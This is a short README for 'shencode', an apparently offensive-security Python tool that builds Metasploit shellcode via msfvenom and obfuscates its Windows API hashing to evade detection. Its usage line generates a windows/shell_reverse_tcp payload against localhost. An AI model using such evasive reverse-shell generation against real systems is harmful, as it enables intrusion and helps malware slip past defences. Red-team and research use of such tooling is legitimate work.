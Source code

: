 # shencode
automation script for creating and obfuscating metasploit shellcode

![shencode-1.png](shencode-1.png)

## Features

### Version 0.2

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Raw and formatted output (C++,C#, C inline ASM, Powershell, Python, Hex)

## ToDo

- choose between building a shellcode and use an existing one
- write shellcode in a template file (.cpp)
- automatical compile feature
- Use PATH for better msfvenom integration
- object oriented rewrite for better module integration

## How to use

Please change the metasploit path in line 166 that it fits your needs. This will be fixed in the future.

`python shencode.py --payload windows/shell_reverse_tcp --arg1 "LHOST=127.0.0.1" --arg2 "LPORT=4455" --key 128 --verbose`

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
